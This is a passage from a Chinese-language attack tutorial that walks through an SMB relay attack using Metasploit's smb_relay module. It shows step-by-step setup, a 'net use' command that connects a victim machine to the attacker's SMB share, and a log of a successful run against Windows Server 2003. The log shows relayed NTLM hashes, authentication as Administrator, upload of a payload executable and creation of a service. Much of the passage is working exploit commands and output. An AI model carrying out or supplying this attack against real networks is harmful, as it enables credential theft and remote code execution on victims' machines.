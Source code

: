 这里使用 MSF 框架中的 smb\_relay 模块来实施 SMB 中继攻击  
Step 1：设置载荷  
[![](assets/1701222524-f0b5e3cbacab48a51d953996bb40d393.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144305-627329d8-8db9-1.png)  
Step 2：执行载荷  
[![](assets/1701222524-63db44f89642d6d00e20cbdaee3b6318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144316-68fb9c2c-8db9-1.png)  
Step 3：在 window 7 中上执行以下命令来访问恶意 SMB 服务

```plain
net use \\192.168.188.129\c$
```

Step 4：由于 Metasploit 的 SMBRelay 只支持 NTLM v1，所以在攻击一些机器时会出现"Failed to authenticate"的情况，但是这种思路是正确的，所以综合来看这种攻击方法在实战中也不是那么被看好  
[![](assets/1701222524-1076e75ae08efec47591aa39378ee50a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144339-766a01dc-8db9-1.png)  
下面是一个 Windows Server 2003 中成功的示例：

```plain
msf exploit(windows/smb/smb_relay) > 
[*] Received 192.168.188.128:1032 X-90E984B4C76D4\Administrator LMHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 NTHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 OS:Windows Server 2003 R2 3790 Service Pack 2 LM:
[*] Authenticating to 192.168.188.128 as X-90E984B4C76D4\Administrator...
[*] AUTHENTICATED as X-90E984B4C76D4\Administrator...
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \hGaRjHmf.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
```